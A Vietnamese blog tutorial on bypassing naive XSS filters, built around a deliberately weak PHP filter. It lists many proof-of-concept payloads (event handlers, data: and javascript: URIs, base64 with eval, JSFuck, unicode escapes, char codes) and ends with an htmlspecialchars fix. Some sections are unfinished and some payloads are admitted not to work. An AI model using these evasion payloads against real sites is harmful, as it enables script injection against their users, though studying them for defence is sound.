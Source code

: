 ```yaml
---
title: XSS Bypass
date: 2025-03-19 15:33:20
tags: [Blog, XSS]
categories: [Công nghệ, Lập trình, Security]
author: Đạt
description: Một số cách bypass XSS 
---
```



Có vô vàn cách filter XSS nhưng không phải cách nào cũng hiệu quả 
<h2>1. Filter script</h2>

```php
<?php
function filter($input) {
    return preg_replace('/<script/', '', $input);
}

if (isset($_GET['name'])) {
    echo 'Hello ' . filter($_GET['name']);
}
?>
```

Bạn nghĩ sao về đoạn mã này về việc phòng chống XSS 
Có bao nhiêu cách để bypass được đoạn mã này ?
<h3>Cách 1 : Thực thi script không nhất thiết phải có thẻ script </h3>

```html
<xml onreadystatechange=alert(1)></xml>

<style onload=alert(1)></style>

<iframe onload=alert(1)></iframe>

<img type=image src=valid.gif onreadystatechange=alert(1)>

<isindex type=image src=valid.gif onreadystatechange=alert(1)>

<script onreadystatechange=alert(1)></script>

<bgsound onpropertychange=alert(1)></bgsound>

<body onbeforeactivate=alert(1)></body>

<body onactivate=alert(1)></body>

<input autofocus onfocus=alert(1)>

<input onblur=alert(1) autofocus>

<body onscroll=alert(1)>
    <br><br>...
    <br><input autofocus>
</body>

<a onmousemove=alert(1)></a>

<audio src=1 onerror=alert(1)></audio>

<video src=1 onerror=alert(1)></video>

<iframe src=javascript:alert(1)></iframe>

<form id=test>
    <button form=test formaction=javascript:alert(1)></button>
</form>

<event-source src=valid.gif onreadystatechange=alert(1)></event-source>

<object onerror=alert(1)></object>

<object type=image src=valid.gif onreadystatechange=alert(1)></object>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click here</a>

<embed src=javascript:alert(1)></embed>
```
Trick : Cách test XSS payload nhanh nhất là gán đoạn mã dưới đây lên url rồi thay đổi payload muốn test thôi. Đống payload trên có mấy cái không chạy được =)) 
```html
data:text/html,<script>alert('XSS!')</script>
```


<h3>Cách 2 : Server đã loại bỏ tất cả input có chứa script.  </h3>

    Cách này khá đơn gian, bypass đơn giản bằng cách thay script thành SCRIPT hoặc ScRiPt, …



<h3> Cách 3 : Nếu filter kí tự đặc biệt thì sao ? như filter dấu < > " / </h3>
Sử dụng base64 để bypass ( thực tế dùng khá nhiều và cũng là high level  )

Sử dụng combo này python này 
```python
javascript_code = base64.b64encode('alert(origin)'.encode("ascii")).decode("ascii") # encode alert(origin) YWxlcnQob3JpZ2luKQ==
PAYLOAD_XSS="<img src=aaa onerror=eval(atob('{}'))>".format(javascript_code) # input base64 vô đây
```
```html 
Ta được payload 
<img src=aaa onerror=eval(atob("YWxlcnQob3JpZ2luKQ=="))>

Test ngay 
data:text/html,<img src=aaa onerror=eval(atob("YWxlcnQob3JpZ2luKQ=="))>
```
Tuyệt ! thử nghiệm XSS thành công
<img src="/images/XSS-la-gi/4.png" />
<a href="data:text/html,<img src=aaa onerror=eval(atob('YWxlcnQob3JpZ2luKQ=='))>">Click vô đây để test </a>

Ở đây là cách dùng base64 nói riêng, hãy thay thế bằng các hàm mã hoá khác tương tự nhé 

<h3>Cách 4 : JSFuck </h3>

Nó liên quan đến trang https://jsfuck.com 
Ví dụ tôi có payload test sau 
```html
data:text/html,<svg onload='alert(1)'>
```
nhét cái alert(1) vào JSFuck ta được đồng hỗn độn 
<img src="/images/XSS-la-gi/5.png" />
```text
[][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[+!+[]]]+[+!+[]]+([]+[]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[!+[]+!+[]]])
```
Vã luôn thôi 

```html
data:text/html,<svg onload='[][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[+!+[]]]+[+!+[]]+([]+[]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[!+[]+!+[]]])'>
```
Chan đê...chan đê...


<h3>Cách 5 : Unichan code </h3>

Nó là unicode ạ =)) 

```html
data:text/html,<script>alert(origin)</script>
```
Ví dụ filter XSS bằng cách không cho dùng kí tự origin
-> bypass thành 
```html 
data:text/html,<script>alert(\u006frigin)</script>
```
<img src="/images/XSS-la-gi/6.png" />
Lưu ý : unicode chỉ dùng được cho các kí tự bên trong, như nếu dùng cho giá trị thẻ script thì không được
<img src="/images/XSS-la-gi/7.png" />


Nếu ta unicode giá trị alert và origin
```html
data:text/html,<script>\u0061\u006c\u0065\u0072\u0074(origin)</script>

data:text/html,<script>\u0061\u006c\u0065\u0072\u0074(\u006f\u0072\u0069\u0067\u0069\u006e)</script>    
// Dấu ( và ) phải được giữ nguyên vì unicode 2 cái dấu này thì không nhận đâu nhé -> payload lỏ luôn  
```
<img src="/images/XSS-la-gi/8.png" />

<h3>Cách 6 : Cộng chuỗi </h3>

Ví dụ nó filter XSS bằng cách không cho dùng kí tự origin

```html
data:text/html,<script>alert("ori"+"gin")</script>
```

<h3>Cách 7 : Char Code </h3>

Hiểu đơn giản là chuyển từ kí tự thành số tương ứng.
```javascript 
const str = "origin";
const charCodes = str.split("").map(char => char.charCodeAt(0));
console.log(charCodes);
```



coppy nguyên đống code này vào trong console của trình duyệt 
<img src="/images/XSS-la-gi/9.png" />


=> ta có payload hoàn chỉnh 
```html
data:text/html,<script>eval(alert(String.fromCharCode(111,114,105,103,105,110)))</script>
```

<h3>Sanitize kí tự quote,doublequote </h3>

quote,doublequote là ' và " nhé các quý đọc giả
Server phát hiện kí tự double quote và sanitize bằng cách thêm dấu \ phía trước.

Bypass bằng \”, kí tự \ đầu tiên sẽ triệt tiêu hiệu quả của dấu \ được chèn vào, nên “ vẫn có hiệu lực để unquote string.
Điểm yếu. nếu nó Sanitize 

<h3>Giới hạn số lượng đầu vào</h3>















Ok vậy thì cách fix như nào là hợp lý nhỉ ?
```php
<?php
function filter($input) {
    return htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
}

if (isset($_GET['name'])) {
    echo 'Hello ' . filter($_GET['name']);
}
?>
```

htmlspecialchars() giúp mã hóa các ký tự đặc biệt như < > " &, bảo vệ tốt hơn chống lại XSS.
